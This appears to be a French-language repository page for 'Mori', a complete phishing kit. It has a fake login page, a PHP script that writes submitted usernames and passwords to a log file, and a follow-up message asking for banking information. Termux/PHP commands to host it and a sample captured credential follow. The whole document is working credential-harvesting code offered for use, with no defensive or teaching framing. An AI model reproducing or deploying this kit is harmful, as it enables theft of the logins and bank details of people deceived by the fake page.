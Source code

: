 # Mori

│
├── index.html       → Page de connexion factice
├── login.php        → Script PHP qui capture les données
└── log.txt          → Fichier où les données sont enregistrées
<!DOCTYPE html>
<html lang="fr">
<head>
  <meta charset="UTF-8">
  <title>Connexion</title>
</head>
<body>
  <h2>Page de Connexion</h2>
  <form action="login.php" method="post">
    <label>Nom d'utilisateur :</label><br>
    <input type="text" name="username"><br><br>
    <label>Mot de passe :</label><br>
    <input type="password" name="password"><br><br>
    <input type="submit" value="Connexion">
  </form>
</body>
</html>
<?php
// Récupération des données POST
$username = $_POST['username'];
$password = $_POST['password'];

// Création ou ouverture du fichier log
$file = fopen("log.txt", "a");

// Formatage et écriture des données
fwrite($file, "Username: " . $username . " | Password: " . $password . "\n");

// Fermeture du fichier
fclose($file);

// Redirection vers une fausse page ou message
echo "<h2>entrez vos informations bancaires </h2><p>Veuillez confirmer .</p>";
?>touch log.txt
mkdir phishing-test && cd phishing-test
# Crée les fichiers ici avec nano ou via termux
php -S localhost:8080
http://localhost:8080/index.html
Username: testuser | Password: azerty123

